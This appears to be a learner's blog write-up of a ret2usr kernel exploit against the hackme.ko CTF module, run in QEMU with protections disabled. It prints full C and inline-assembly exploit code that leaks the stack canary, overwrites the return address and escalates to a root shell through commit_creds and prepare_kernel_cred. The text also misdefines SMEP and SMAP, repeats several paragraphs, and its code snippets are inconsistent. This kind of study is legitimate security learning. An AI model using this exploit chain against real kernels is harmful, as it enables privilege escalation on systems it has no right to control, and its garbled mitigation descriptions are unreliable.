

Linux Kernel Exploitation[1] - Study Case
This is my first Linux kernel exploit. I started studying LKM (Loadable Kernel Module) development a few months ago and now I feel comfortable starting to learn about kernel exploitation. A friend recommended the contents of LKMIDAS on kernel exploitation to me, so this is a report about my studies based on their article.
Similar to user space, the kernel has some mitigations in place to prevent the exploitation of some vulnerabilities. It implements canaries in memory segments, address layout randomization, position independent executable and other possible mitigations. Some of these mitigations are very similar to those in user space, but they receive different names like KASLR.
- SMEP (Supervisor Mode Access Prevention) → sets all the userland pages to non-executable when the process are running in kernel mode, controlled in CR4 register.
- SMAP (Kernel page-table isolation) → It’s like SMEP but it disables the userland pages, so you cannot read or write on it.
- KPTI (Kernel page-table isolation) → This functions separates the userland pages tables and kernel land page tables.
bzimage → Compressed Linux Kernel
initramfs → Linux file system compressed with cpio and gzip.
Reverse Engineering | hackme.ko
Recently I watched a video of LiveOverflow that talks about the modern reverse engineering process, I used this approach to work in my process.
At first i downloaded the binary provided by the LKMIDAS that is hackme.ko, it’s a kernel module x64, I used the IDA to transform the binary instructions in readable C code with the decompiler, with it we can analyze the code better.
If you have ever coded a Linux kernel module, you must know that in order for the module to work, it needs to have an entry point and an exit point. We can locate two functions that perform these actions in the binary - the hackme_init and the hackme_exit.
{kind=link}

These functions tell us that we can interact with the driver using the READ, WRITE, OPEN, RELEASE, and other system calls.
To better understand the code, I will copy it and provide comments explaining what each part does.
HACKME INIT - Function
The init function registers the device in the kernel. We can see that it simply returns the result of the misc_register function, which receives the address of hackme_misc.

If you want to understand more about misc_register, it's a good idea to search for documentation. You can read more about it here: https://archive.kernel.org/oldlinux/htmldocs/kernel-api/API-misc-register.html
As an argument, the function receives a structure of the miscdevice type. The following image shows how it's built. https://docs.huihoo.com/doxygen/linux/kernel/3.7/structmiscdevice.html

So, that's the structure. The name that will be displayed is “hackme”.

Hackme Exit
The exit function only performs the action of unregistering the device, receiving the same structure of miscdevice type.

Hackme Write
There is a function used in this code that is called copy from user, that copies some data from userland to kernel-land.
Look the documentation about this function: https://archive.kernel.org/oldlinux/htmldocs/kernel-api/API---copy-from-user.html
Some important things to known is about the return of the function, it returns zero if the copy was succeeded and an value of bytes that could not be copied.
There is a size check with v4 to known if the received value is higher than 0x1000.
There is a function used in this code called copy_from_user, which copies data from userland to kernel-land.
To learn more about this function, you can refer to the documentation at https://archive.kernel.org/oldlinux/htmldocs/kernel-api/API---copy-from-user.html.
Some important things to note about this function are its return value - it returns zero if the copy was successful and a value of bytes that that cannot be copied.
There is a size check with v4 to determine if the received value is higher than 0x1000.

Hackme Read
So, the read function has a local variable called TMP with a size of 32 multiplied by int(4). The hackme_buf is a stack buffer that is copied to the TMP. There is a check to see if the size is higher than 0x1000. If so, it prints the message 'buffer overflow detected'. Then, a copy to user is executed, which copies the data from the hackme_buf to the DATA reference. Please refer to the following documentation for more information: https://archive.kernel.org/oldlinux/htmldocs/kernel-api/API---copy-to-user.html

It's important to also know that the function has cookie verifications, so if we perform some corruption in the stack, it needs to be bypassed.

The article by LKMIDAS explains how to perform certain actions using the Ret2User technique. Essentially, it involves exploiting a program by injecting code that causes program jumps and overwrites the return address in the kernel with the address of the desired function, thereby executing the code in kernel mode.
The module is a system device, and we can interact with it in the /dev/ folder, which contains all the device files running on the system. We can work with C binaries to handle the opened file descriptor (FD) and perform interactions.
After understanding all the concepts in the article, let's proceed with the exploitation. I will use GDB to attach to a remote target, which is the vmlinux running in QEMU with the DEBUG port enabled.

Run script without protections:
#!/bin/sh
qemu-system-x86_64 \
-m 128M \
-s \
-cpu kvm64 \
-kernel vmlinuz \
-initrd initramfs.cpio.gz \
-hdb flag.txt \
-snapshot \
-nographic \
-monitor /dev/null \
-no-reboot \
-append "console=ttyS0 nopti nokaslr quiet panic=1"The first step of the exploit is to leak the stack canary to perform other exploitations. If you look at the read function stack in the LKM, you will see that there is only one local variable, which is “int tmp[32]”. Therefore, the canary is located before it on the stack
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#define SIZE_TMP 16
unsigned long leak(int fd);
unsigned long leak(int fd){
unsigned long buf[SIZE_TMP+8];
read(fd, buf, sizeof(buf));
return buf[SIZE_TMP];
}
int main(void){
int fd = open("/dev/hackme", O_RDWR);
if(!fd){
printf("[!]Error in openning descriptor\n");
}else{
printf("[OK]FD onpened\n");
}
unsigned long canary = leak(fd);
printf("Canary = 0x%lx\n", canary);
return 0;
}The next step in the exploitation is to overwrite the ret function. In the assembly code, we can see three pops from the stack. This junk code needs to be written after the canary, because the canary verification is done before the "pops" that reside in the return call.

This is the stack of the hackme_write function, which works in the same way as the function itself.

junk + canary + rbx_junk + r12_junk + rbp_junk + retvoid overwrite_ret(int fd, unsigned long canary, int ret){
unsigned long payload[SIZE_TMP+10];
payload[SIZE_TMP+1] = canary;
payload[SIZE_TMP+2] = 0x90;
payload[SIZE_TMP+3] = 0x90;
payload[SIZE_TMP+4] = 0x90;
payload[SIZE_TMP+5] = ret;
write(fd,payload,sizeof(payload));
}Getting Root Privileges
One of the issues addressed in the LKMIDAS report is the achievement of root privileges using the commit_creds and prepare_kernel_cred kernel functions. These functions are explained in detail in the following link: https://www.kernel.org/doc/Documentation/security/credentials.txt.
This approach to kernel exploitation works without any protection in the kernel space, allowing easy access to the kernel symbol table and the addresses of these two functions.
The final steps of the exploit can be done using ASM code in a C exploit file. For more information, please refer to: https://gcc.gnu.org/onlinedocs/gcc/Using-Assembly-Language-with-C.html.
To access the addresses of the commit_creds and prepare_kernel_cred kernel functions, you need to access the "/proc/kallsyms" file, which contains the kernel symbol table. To access this file, you must change your session to root, edit "/etc/init.d/rcS", and set the last line as "setuidgid 0 /bin/sh". After collecting the addresses, remove this line."

Now the write function will look like this:
void overwrite_ret(int fd, unsigned long canary){
unsigned long payload[SIZE_TMP+10];
payload[SIZE_TMP] = canary;
payload[SIZE_TMP+1] = 0x00;
payload[SIZE_TMP+2] = 0x00;
payload[SIZE_TMP+3] = 0x00;
payload[SIZE_TMP+4] = (unsigned long)getShell;
write(fd,payload,sizeof(payload));
}There are three things left to be done. First, we need to save the current state of the userland. It's important to call this function when starting the exploit chain. The following code will save the current user CS, SS, RSP, and FLAGS registers. The “pushf” instruction pushes flag values onto the stack, and after that, they are popped into the “userlandRFLAGS” variable in userland.
unsigned long userlandCS, userlandSS, userlandRSP, userlandRFLAGS
void save_state(){
__asm__(
".intel_syntax noprefix;"
"mov userlandCS, cs;"
"mov userlandSS, ss;"
"mov userlandRSP, rsp;"
"pushf;"
"pop userlandRFLAGS;"
".att_syntax;"
);
}The article explains some concepts to return to the userland we can use sysretq or iretq insutrctions, so all the useland saved values can be used with the iretq function to perform the restoration of the registers, its important to known that the values needs to be into the stack. https://www.felixcloutier.com/x86/iret:iretd:iretq , https://os.phil-opp.com/returning-from-exceptions/.
A instruction called swapgs is important to swap between kernel and user mode, it perform actions in GS register https://www.felixcloutier.com/x86/swapgs.
The article explains some concepts to return to userland. We can use sysretq or iretq instructions to do so, and all the userland saved values can be used with the iretq function to restore the registers. It's important to note that the values need to be in the stack. Source: https://www.felixcloutier.com/x86/iret:iretd:iretq, https://os.phil-opp.com/returning-from-exceptions/
An instruction called swapgs is important to swap between kernel and user mode. It performs actions on the GS register. Source: https://www.felixcloutier.com/x86/swapgs
Final exploit:
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#define SIZE_TMP 16
void overwrite_ret(int fd, unsigned long canary);
unsigned long leak(int fd);
void saveUserState(void);
unsigned long userlandCS, userlandSS, userlandRFLAGS, userlandRSP;
//ffffffff814c6410 T commit_creds
//ffffffff814c67f0 T prepare_kernel_cred
void saveUserState(void){
__asm__(
".intel_syntax noprefix;"
"mov userlandCS, cs;"
"mov userlandSS, ss;"
"mov userlandRSP, rsp;"
"pushf;"
"pop userlandRFLAGS;"
".att_syntax;"
);
}
void spawnShell(void){
system("/bin/sh");
}
unsigned long userlandRIP = (unsigned long)spawnShell;
void getShell(void){
__asm__(
".intel_syntax noprefix;"
"movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
"xor rdi, rdi;"
"call rax; mov rdi, rax;"
"movabs rax, 0xffffffff814c6410;" //commit_creds
"call rax;"
"swapgs;"
"mov rdx, userlandSS;"
"push rdx;"
"mov rdx, userlandRSP;"
"push rdx;"
"mov rdx, userlandRFLAGS;"
"push rdx;"
"mov rdx, userlandCS;"
"push rdx;"
"mov rdx, userlandRIP;"
"push rdx;"
"iretq;"
".att_syntax;"
);
}
void overwrite_ret(int fd, unsigned long canary){
unsigned long payload[SIZE_TMP+10];
payload[SIZE_TMP] = canary;
payload[SIZE_TMP+1] = 0x00;
payload[SIZE_TMP+2] = 0x00;
payload[SIZE_TMP+3] = 0x00;
payload[SIZE_TMP+4] = (unsigned long)getShell;
printf("Canary = 0x%lx\n", canary);
write(fd,payload,sizeof(payload));
}
unsigned long leak(int fd){
unsigned long buf[SIZE_TMP+8];
read(fd, buf, sizeof(buf));
return buf[SIZE_TMP];
}
int main(void){
saveUserState();
int fd = open("/dev/hackme", O_RDWR);
if(!fd)
printf("[!]Error openning device\n");
else
printf("[OK]Device onpened\n");
unsigned long canary = leak(fd);
printf("Canary = 0x%lx\n", canary);
overwrite_ret(fd, canary);
return 0;
}The entire content of this report is based on LKMIDAS's writeup about Linux Kernel exploitation 1, thank you for all the knowledge shared :)
For more details, please see: https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/.